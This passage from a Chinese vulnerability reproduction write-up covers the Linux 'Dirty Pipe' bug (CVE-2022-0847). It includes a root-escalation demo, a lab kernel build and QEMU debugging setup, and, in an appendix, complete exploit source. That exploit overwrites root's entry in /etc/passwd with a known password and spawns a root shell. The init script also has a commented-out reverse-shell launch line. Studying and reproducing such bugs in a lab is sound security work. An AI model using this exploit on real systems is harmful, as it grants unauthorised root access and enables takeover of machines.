


下位机：




### 4.3.6 演示(实机发行版)

打开下位机，选择Advanced options for Ubuntu选项。



在该选项中，选择Ubuntu, with 5.13.0-21-generic，进入Linux内核v5.13.0-21。



进入系统命令行后，运行exploit漏洞利用程序。



上图可以分析得出：helson用户的uid权限为1000，运行exploit漏洞利用程序后，成功将uid权限提升为0，即root。普通权限无法查看/etc/shadow，而root权限下可以查看/etc/shadow文件，说明权限提升成功。

# 五、复现总结

本漏洞系Linux系统经典漏洞，别名”Dirty Pipe”。本漏洞给与的启示是：开发中，一定要遵循变量先赋值，后使用的原则。

# 六、附件

### 6.1 pipe系统调用示例代码

```
// C程序演示C中父子共享的管道系统调用
#include <stdio.h> 
#include <unistd.h> 
#include <stdlib.h>
#include <sys/wait.h>

#define MSG_SIZE 16 
char* msg1 = "hello, world #1"; 
char* msg2 = "hello, world #2"; 
char* msg3 = "hello, world #3"; 

int main() 
{ 
 char inbuf[MSG_SIZE]; 
 int p[2], pid, nbytes; 

 if (pipe(p) < 0) 
     exit(1); 

 // 父进程中
 if ((pid = fork()) > 0) { 
     write(p[1], msg1, MSG_SIZE); 
     write(p[1], msg2, MSG_SIZE); 
     write(p[1], msg3, MSG_SIZE); 

     // 添加下面一行代码来关闭管道的写入口就不会引起进程挂起
     // close(p[1]); 

     wait(NULL);

 // 子进程中
 } else { 
     // 添加下面一行代码来关闭管道的写入口就不会引起进程挂起
     // close(p[1]); 

     while ((nbytes = read(p[0], inbuf, MSG_SIZE)) > 0) 
         printf("s %s\n", inbuf);
     if (nbytes != 0) 
         exit(2); 
     printf("Finished reading\n"); 
 } 

 return 0; 
}

```

### **6.2 splice系统调用示例代码**

```
#include <sys/socket.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>

int main() {
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    int filefd = open("output.txt", O_WRONLY | O_CREAT | O_TRUNC, 0644);

    int pipefd[2];
    pipe(pipefd);

    // 从套接字读取数据并将其写入管道中
    splice(sockfd, NULL, pipefd[1], NULL, 32768, 0);

    // 从管道中读取数据并将其写入文件中
    splice(pipefd[0], NULL, filefd, NULL, 32768, 0);

    close(sockfd);
    close(filefd);

    return 0;
}

```

### 6.3 Linux内核编译环境配置

```
#!/bin/sh

<<Environment
    HOST: Ubuntu18.04.05
    Host Kernel Version: Linux pc 5.4.0-42-generic #46~18.04.1-Ubuntu SMP Fri Jul 10 07:21:24 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
    GCC Version: gcc (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
    Target compile kernel version: Linux v5.9.10

    【ERROR】
    Ubuntu22.04版本下编译Linux v5.9.10会报错
    原因：ld版本迭代，某些符号命名发生了变更，导致编译器无法找到符号，进而报告符号缺失(missing)
    原因分析：
        参考网页 - Compiling older versions of the kernel using newer packages：https://www.reddit.com/r/archlinux/comments/pl9pak/compiling_older_versions_of_the_kernel_using/
        该分析称：binutils 2.36已经修复该错误。patch补丁地址为：https://github.com/torvalds/linux/commit/1d489151e9f9d1647110277ff77282fe4d96d09b.patch
        然而，Ubuntu22.04 LTS中的binutils版本为2.38，依旧报错
    解决方法：
        使用更低版本的Linux发行版，编译该内核
    其他：
        同样报错提问帖 - kernel compile error: arch/x86/entry/thunk_64.o：https://forums.gentoo.org/viewtopic-p-8673423.html?sid=7ed57e7d28442bf7e95228cafb143034

Environment

<<COMMENT
    【.config文件的修改】
    报错：No rule to make target 'debian/canonical-certs.pem'...
    原因：估计是内核模块签名，密码啥的。

    解决方法：
    1、参考CSDN博客 - 内核错误......：https://blog.csdn.net/qq_36393978/article/details/118157426

    具体解决操作：
    1、将.config文件中的以下值，修改为空值
    CONFIG_SYSTEM_TRUSTED_KEYS="debian/canonical-certs.pem" -> CONFIG_SYSTEM_TRUSTED_KEYS=""
    CONFIG_SYSTEM_REVOCATION_KEYS="debian/canonical-revoked-certs.pem" -> CONFIG_SYSTEM_REVOCATION_KEYS=""
COMMENT

<<COMMENT
    【依赖相关，编译报错】
    总结：缺失的依赖，已补充到环境配置命令中

    【报错1】
    BTF: .tmp_vmlinux.btf: pahole (pahole) is not available
    Failed to generate BTF for vmlinux
    Try to disable CONFIG_DEBUG_INFO_BTF
    Makefile:1162: recipe for target 'vmlinux' failed
    make: *** [vmlinux] Error 1

    原因：不明

    解决方法：
    1、参考stackoverflow - BTF...... ：https://stackoverflow.com/questions/61657707/btf-tmp-vmlinux-btf-pahole-pahole-is-not-available

    具体解决操作：
    1、sudo apt install dwarves

    【报错2】
      ZSTD22  arch/x86/boot/compressed/vmlinux.bin.zst
    /bin/sh: 1: zstd: not found
    arch/x86/boot/compressed/Makefile:152: recipe for target 'arch/x86/boot/compressed/vmlinux.bin.zst' failed
    make[2]: *** [arch/x86/boot/compressed/vmlinux.bin.zst] Error 127
    make[2]: *** Deleting file 'arch/x86/boot/compressed/vmlinux.bin.zst'
    arch/x86/boot/Makefile:115: recipe for target 'arch/x86/boot/compressed/vmlinux' failed
    make[1]: *** [arch/x86/boot/compressed/vmlinux] Error 2
    arch/x86/Makefile:265: recipe for target 'bzImage' failed
    make: *** [bzImage] Error 2
    make: *** Waiting for unfinished jobs....

    原因：不明

    解决方法：
    1、参考博客 - Ubuntu 20.04 compile zstd error：https://forum.openwrt.org/t/ubuntu-20-04-compile-zstd-error/66619

    具体解决操作：
    1、sudo apt install zstd
COMMENT

# 脚本入口在此！main

sudo apt update
sudo apt install -y git fakeroot build-essential ncurses-dev xz-utils libssl-dev bc flex libelf-dev bison
sudo apt install -y gcc make
sudo apt install -y dwarves zstd    # 缺失这两个依赖，会导致依赖报错。详情请见脚本开头注释。

: 以下命令用于安装Qemu，用于调试
sudo apt install -y qemu-system

```

### **6.4 Linux根文件系统相关文件内容**

### 6.4.1 /etc/passwd文件内容

```
root:x:0:0:root:/root:/bin/sh
sam:x:1000:1000:sam:/home/sam:/bin/sh
```

### 6.4.2 /etc/group文件内容

```
root:x:0:
sam:x:1000:
```

### **6.4.3 /init文件内容**

```
#!/bin/sh
echo "{==DBG==} INIT SCRIPT"
#mkdir /tmp
#mount -t devtmpfs none /dev
mount -t proc none /proc
mount -t sysfs none /sys
mount -t debugfs none /sys/kernel/debug
mount -t tmpfs /tmp
mount -t devtmpfs devtmpfs /dev

mkdir -p /dev/pts
mount -vt devpts -o gid=4,mode=620 none /dev/pts

# 添加普通用户sam, id为1000
# mkdir -p /home/sam
# mkdir -p /etc
# touch /etc/passwd
# adduser -h /home/sam -s /bin/sh sam

#loadKo
insmod /tmp/myHeapMod.ko

mdev -s # We need this to find /dev/sda later
echo -e "{==DBG==} Boot took $(cut -d' ' -f1 /proc/uptime) seconds"
#chown 1000 /dev/stack
#chmod 777 /dev/arbWriteModule
# chmod 777 /dev/stack

ifconfig lo 127.0.0.1
route add -net 127.0.0.0 netmask 255.255.255.0 lo
ifconfig eth0 192.168.10.0
route add -net 192.168.10.0 netmask 255.255.255.0 eth0

#chmod 777 /tmp/sudo
#nohup /tmp/sudo &
#nohup /tmp/reverse_shell &

# 初始化su的环境
# 备注：此处那个/bin/su，是一个硬链接。设置该文件的属性，实质上是设置/bin/busybox的属性。因此，下列语句起效。
chown root:root /bin/su
chmod 4755 /bin/su

# 这是只有root才能够读取的flag
echo "this is a sample flag" >> /flag
chmod 600 flag

# exec /bin/sh -c "su sam" #root

# 以下命令的数值部分，区分normal user还是root
setsid /bin/cttyhack setuidgid 0 /bin/sh #normal user
poweroff -d 0  -f

```

### 6.4.4 start.sh文件内容

```
qemu-system-x86_64  \
-m 4096M \
-cpu kvm64,+smep,+smap \
-kernel ./bzImage \
-initrd ./test.cpio \
-nographic \
-s \
-smp 4,cores=2,threads=2 \
-append "console=ttyS0 quiet nokaslr"

```

### 6.4.5 gdb\_kernel.sh文件内容

```
gdb \
    -ex "add-auto-load-safe-path $(pwd)" \
    -ex "file ./vmlinux" \
    -ex 'set architecture i386:x86-64' \
    -ex 'target remote localhost:1234' \

```

### 6.5 exploit漏洞利用程序源代码

```
/* SPDX-License-Identifier: GPL-2.0 */
/*
 * Copyright 2022 CM4all GmbH / IONOS SE
 *
 * author: Max Kellermann <max.kellermann@ionos.com>
 *
 * Proof-of-concept exploit for the Dirty Pipe
 * vulnerability (CVE-2022-0847) caused by an uninitialized
 * "pipe_buffer.flags" variable.  It demonstrates how to overwrite any
 * file contents in the page cache, even if the file is not permitted
 * to be written, immutable or on a read-only mount.
 *
 * This exploit requires Linux 5.8 or later; the code path was made
 * reachable by commit f6dd975583bd ("pipe: merge
 * anon_pipe_buf*_ops").  The commit did not introduce the bug, it was
 * there before, it just provided an easy way to exploit it.
 *
 * There are two major limitations of this exploit: the offset cannot
 * be on a page boundary (it needs to write one byte before the offset
 * to add a reference to this page to the pipe), and the write cannot
 * cross a page boundary.
 *
 * Example: ./write_anything /root/.ssh/authorized_keys 1 $'\nssh-ed25519 AAA......\n'
 *
 * Further explanation: https://dirtypipe.cm4all.com/
 */

#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/user.h>

#ifndef PAGE_SIZE
#define PAGE_SIZE 4096
#endif

/**
 * Create a pipe where all "bufs" on the pipe_inode_info ring have the
 * PIPE_BUF_FLAG_CAN_MERGE flag set.
 */
static void prepare_pipe(int p[2])
{
    if (pipe(p)) abort();

    const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
    static char buffer[4096];

    /* fill the pipe completely; each pipe_buffer will now have
       the PIPE_BUF_FLAG_CAN_MERGE flag */
    for (unsigned r = pipe_size; r > 0;) {
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        write(p[1], buffer, n);
        r -= n;
    }

    /* drain the pipe, freeing all pipe_buffer instances (but
       leaving the flags initialized) */
    for (unsigned r = pipe_size; r > 0;) {
        unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
        read(p[0], buffer, n);
        r -= n;
    }

    /* the pipe is now empty, and if somebody adds a new
       pipe_buffer without initializing its "flags", the buffer
       will be mergeable */
}

int main() {
    const char *const path = "/etc/passwd";

        printf("Backing up /etc/passwd to /tmp/passwd.bak ...\n");
        FILE *f1 = fopen("/etc/passwd", "r");
        FILE *f2 = fopen("/tmp/passwd.bak", "w");

        if (f1 == NULL) {
            printf("Failed to open /etc/passwd\n");
            exit(EXIT_FAILURE);
        } else if (f2 == NULL) {
            printf("Failed to open /tmp/passwd.bak\n");
            fclose(f1);
            exit(EXIT_FAILURE);
        }

        char c;
        while ((c = fgetc(f1)) != EOF)
            fputc(c, f2);

        fclose(f1);
        fclose(f2);

    loff_t offset = 4; // after the "root"
    const char *const data = ":$1$aaron$pIwpJwMMcozsUxAtRa85w.:0:0:test:/root:/bin/sh\n \n    "; // openssl passwd -1 -salt aaron aaron 
        printf("Setting root password to \"aaron\"...\n");
    const size_t data_size = strlen(data);

    if (offset % PAGE_SIZE == 0) {
        fprintf(stderr, "Sorry, cannot start writing at a page boundary\n");
        return EXIT_FAILURE;
    }

    const loff_t next_page = (offset | (PAGE_SIZE - 1)) + 1;
    const loff_t end_offset = offset + (loff_t)data_size;
    if (end_offset > next_page) {
        fprintf(stderr, "Sorry, cannot write across a page boundary\n");
        return EXIT_FAILURE;
    }

    /* open the input file and validate the specified offset */
    const int fd = open(path, O_RDONLY); // yes, read-only! :-)
    if (fd < 0) {
        perror("open failed");
        return EXIT_FAILURE;
    }

    struct stat st;
    if (fstat(fd, &st)) {
        perror("stat failed");
        return EXIT_FAILURE;
    }

    if (offset > st.st_size) {
        fprintf(stderr, "Offset is not inside the file\n");
        return EXIT_FAILURE;
    }

    if (end_offset > st.st_size) {
        fprintf(stderr, "Sorry, cannot enlarge the file\n");
        return EXIT_FAILURE;
    }

    /* create the pipe with all flags initialized with
       PIPE_BUF_FLAG_CAN_MERGE */
    int p[2];
    prepare_pipe(p);

    /* splice one byte from before the specified offset into the
       pipe; this will add a reference to the page cache, but
       since copy_page_to_iter_pipe() does not initialize the
       "flags", PIPE_BUF_FLAG_CAN_MERGE is still set */
    --offset;
    ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);
    if (nbytes < 0) {
        perror("splice failed");
        return EXIT_FAILURE;
    }
    if (nbytes == 0) {
        fprintf(stderr, "short splice\n");
        return EXIT_FAILURE;
    }

    /* the following write will not create a new pipe_buffer, but
       will instead write into the page cache, because of the
       PIPE_BUF_FLAG_CAN_MERGE flag */
    nbytes = write(p[1], data, data_size);
    if (nbytes < 0) {
        perror("write failed");
        return EXIT_FAILURE;
    }
    if ((size_t)nbytes < data_size) {
        fprintf(stderr, "short write\n");
        return EXIT_FAILURE;
    }

    char *argv[] = {"/bin/sh", "-c", "(echo aaron; cat) | su - -c \""
                "echo \\\"Restoring /etc/passwd from /tmp/passwd.bak...\\\";"
                "cp /tmp/passwd.bak /etc/passwd;"
                "echo \\\"Done! Popping shell... (run commands now)\\\";"
                "/bin/sh;"
            "\" root"};
        execv("/bin/sh", argv);

        printf("system() function call seems to have failed :(\n");
    return EXIT_SUCCESS;
}

```

### 6.6 Linux系统pipe管道方案分析

《Linux系统pipe管道方案分析.md》，见本文附件

### 6.7 Linux系统Splice系统调用链分析

《Linux系统splice系统调用链分析.md》，见本文附件
